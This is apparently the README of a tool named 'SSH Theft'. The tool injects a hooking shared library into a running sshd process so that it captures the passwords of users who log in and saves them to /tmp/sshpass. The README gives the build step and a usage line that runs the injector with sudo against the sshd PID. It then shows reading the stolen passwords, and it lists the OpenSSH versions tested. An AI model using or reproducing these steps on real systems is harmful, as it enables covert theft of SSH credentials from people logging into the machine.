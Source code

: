 # SSH Theft
Showcase:

![show](./assets/Peek.gif)

compile：

```Complile:
make
```

Usage:

```
$ sudo ./debug/main `ps -A |grep sshd|cut -d '?' -f1` fork fork `pwd`/debug/hook.so
...wait for logins.
$ cat /tmp/sshpass  
```

Notes:    

Hooking multiple library calls, pure code Injection, no monitor process.  
Currently have been tested on __archlinux openssh 8.2p1-3, archlinux openssh github master, ubuntu 18.04 openssh(ported with system), ubuntu 16.04 openssh(ported with system)__  .
